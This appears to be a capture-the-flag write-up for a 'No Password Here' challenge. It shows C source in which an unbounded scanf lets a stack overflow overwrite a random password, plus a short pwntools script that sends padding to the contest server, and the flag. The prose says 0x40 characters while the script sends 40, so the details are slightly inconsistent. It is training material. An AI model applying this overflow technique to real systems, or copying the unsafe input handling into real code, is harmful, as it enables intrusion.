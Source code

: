 # No Password Here

## Challenge

We're given a small C binary with source code.

### Checksec

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

### Code.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
void main()
{
	char flag[120];
	setvbuf ( stdout, NULL , _IONBF , 0 );
	char Test[20];

	//random number based on the current time.
	//YOU WILL NEVER GUESS THE PASSWORD. HAHAHAHAHHAH
    srand(time(0));
	sprintf(Test, "%d",rand());	
	
	
    char input[20];
    printf("Enter something?");
    scanf("%s",input);

	//Check password
	if (strncmp(Test,input,20) == 0)
	{
		FILE *f = fopen("flag.txt","r");
		
		fgets(flag,100,f);
		
		printf("Password is correct! Here is your flag: %s", flag);
	}
	

}
```

## Solution

The function uses `scanf` in an unsafe way, as there is no limit on how many characters we read into `input`.

As `input` is at a lower address than `Test`, we can overwrite the randomly generated password.

The check is done using `strncmp` with a length of 20, so only up to 20 characters will be tested.

If we send 0x40 characters, we can fill both buffers with "A"s and pass the password check.
Note that we need more than just 20+20 characters, as the buffers are actually 32 bytes apart in memory.

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

host = args.HOST or 'srv1.2023.magpiectf.ca'
port = int(args.PORT or 1996)

io = connect(host, port)

io.sendline(b'A' * 40)

io.interactive()
```

## Flag

```
magpie{5c4nf_n07_54f3}
```
